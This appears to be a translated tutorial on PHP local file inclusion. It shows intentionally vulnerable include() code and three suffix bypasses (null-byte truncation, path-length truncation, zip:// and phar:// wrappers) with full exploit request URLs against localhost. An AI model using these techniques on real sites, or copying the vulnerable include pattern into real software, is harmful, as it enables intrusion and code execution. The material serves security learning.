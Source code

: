 ```php
<?php
highlight_file(__FILE__);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file . ".H3rmesk1t");
}else{
    echo "Cam you find me???"
}
?>
```

**The first method: %00 truncation**
- Prerequisite: PHP<5.3.4
- magic_quotes_gpc = Off

![Insert the picture description here](https://img-blog.csdnimg.cn/20210527153839668.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052715384856.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The second method: length cutoff
- Prerequisite: PHP version <=5.2.?
- The operating system has a length limit for directory strings: the maximum length of the directory under Windows is 256 bytes, and the excess will be discarded; the maximum length of the directory under Linux is 4096 bytes, and the excess will be discarded; for example, in Windows operating systems, `.` exceeds 256 bytes, and just repeat `./` in Linux.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210527154820642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**The third method: zip/phar protocol**

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file.".jpg");
}else{
    echo "Can you find me???"
}
?>
```
It is obvious that this is a file containing, but a ".jpg" suffix is ​​forced to be added to the passed file name, which makes it impossible to include any file.
First, we create a new shell.php file, with the following content:

```php
<?php phpinfo();?>
```

- And rename it to test.jpg, because the above code can only contain jpg files
- Then compress it into a zip package. When compressing, be careful to choose options such as only store to prevent data from being compressed.
- Then change the suffix of this zip to jpg Such (sometimes, it can be successful if you don't change it, and you can successfully use the zip suffix). The purpose is to successfully upload it. After that, we can use: `http://localhost/H3rmesk1t/demo.php?file=zip://D:/Users/86138/Desktop/shell.zip%23shell` or `http://localhost/H3rmesk1t/demo.php?file=zip://D:/Users/86138/Desk top/shell.jpg%23shell` or `http://localhost/H3rmesk1t/demo.php?file=phar://D:/Users/86138/Desktop/shell.zip/shell` or `http://localhost/H3rmesk1t/demo.php?file=phar://D:/Users/86138/Desktop/shell.jpg/shell`
